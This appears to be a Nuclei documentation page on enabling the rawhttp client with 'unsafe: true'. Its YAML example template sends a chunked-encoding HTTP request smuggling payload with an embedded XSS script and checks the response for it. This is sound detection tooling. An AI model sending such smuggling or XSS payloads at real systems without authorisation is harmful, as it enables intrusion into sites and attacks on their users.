 ```yaml
---
title: "Unsafe HTTP"
description: "Learn more about using rawhttp with Nuclei"

---
```


Nuclei supports [rawhttp](https://github.com/projectdiscovery/rawhttp) for complete request control and customization allowing **any kind of malformed requests** for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

**rawhttp** library is disabled by default and can be enabled by including `unsafe: true` in the request block. 

Here is an example of HTTP request smuggling detection template using `rawhttp`. 

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```
